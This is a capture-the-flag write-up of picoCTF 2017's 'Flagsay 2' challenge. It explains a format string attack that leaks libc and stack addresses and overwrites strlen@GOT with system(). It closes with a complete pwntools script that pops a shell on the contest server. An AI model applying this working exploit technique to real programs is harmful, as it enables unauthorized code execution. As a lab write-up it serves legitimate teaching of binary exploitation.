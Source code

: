 # Flagsay 2
#### Writeup by hgarrereyn
* **Binary Exploitation**
* *150 points*
* Description: Apparently I messed up using system(). I'm pretty sure this one is secure though! I hope flagsay-2 is just as exhilarating as the the first one! Source. Connect on shell2017.picoctf.com:19884.

# Solution

This problem was a format string attack like `Console Config`.

However, the input buffer was not on the stack so you had to find some way to get control of stack pointers.

I found the following useful pointers:

* `%17` pointed to `%53` on the stack. So I could write an address to `%53` and then write to any address.
* `%23` and `%24` had pointers to addresses near the one I wanted to overwrite so I was able to overwrite just one or two bytes and get them each pointing to the GOT table (2 bytes apart)
* `%2` was pointing into libc, so I could use it as a reference to calculate the address of `system`


# Step-by-step

During the competition, I found it easier to crack this binary by hand, typing in lines manually.

As part of this writeup, I wrote a script for completeness.

### Instructions:

*For all writes, subtract 129 initially as this is how many characters are printed as part of the flag*

1. System address is `%2 + 1489168`
2. s1(`%23`) is at `%22 - 24`
	* Write the lower two bytes of this to `%17`
	* Write `0x84` to lowest byte of `%53`
3. s2(`%24`) = `s1 + 4`
	* Write the lower two bytes of this to `%17`
	* Write `0x9986` to lower two bytes of `%53`
4. Write higher two bytes of system address to `%23` and write lower two bytes of system address to `%24` (this overwrites `strlen@GOT` with system)
5. send `sh`
6. You've got shell!

# Script

```python
# By Harrison Green <hgarrereyn>

from pwn import *
import re

# Connect to the server
sock = remote('shell2017.picoctf.com', 19884)

# Helper function to consume input
def n():
	a = sock.recv()
	print(a)
	return a


# Calculate system address
sock.send('<%2$lx>\n')
resp = n()
ref_addr = int(re.search(r'<([a-f0-9]*)>', resp).group(1), 16)
sys_addr = ref_addr - 1488960

print('System at: ' + hex(sys_addr))

# Get stack address
sock.send('<%22$lx>\n')
resp = n()
ref_addr = int(re.search(r'<([a-f0-9]*)>', resp).group(1), 16)
s1 = ref_addr - 24
s2 = s1 + 4

# Create first GOT pointer
sock.send('%' + str((s1 & 0xFFFF) - 129) + 'x%17$hn\n')
sock.send('%' + str(259) + 'x%53$hhn\n')

# Create second GOT pointer (first + 2)
sock.send('%' + str((s2 & 0xFFFF) - 129) + 'x%17$hn\n')
sock.send('%' + str(39173) + 'x%53$hn\n')

# Use GOT addresses to overwrite strlen with system
sys_high = (sys_addr & 0xFFFF0000) >> 16
sys_low = (sys_addr & 0xFFFF)

print(hex(sys_high))
print(hex(sys_low))

# make sure the second write is greater
if (sys_high > sys_low):
	sock.send('%' + str(sys_low - 129) + 'x%23$hn' + '%' + str(sys_high - sys_low) + 'x%24$hn\n')
else:
	sock.send('%' + str(sys_high - 129) + 'x%24$hn' + '%' + str(sys_low - sys_high) + 'x%23$hn\n')

sock.send('sh\n')

# We've got shell
sock.interactive()
```

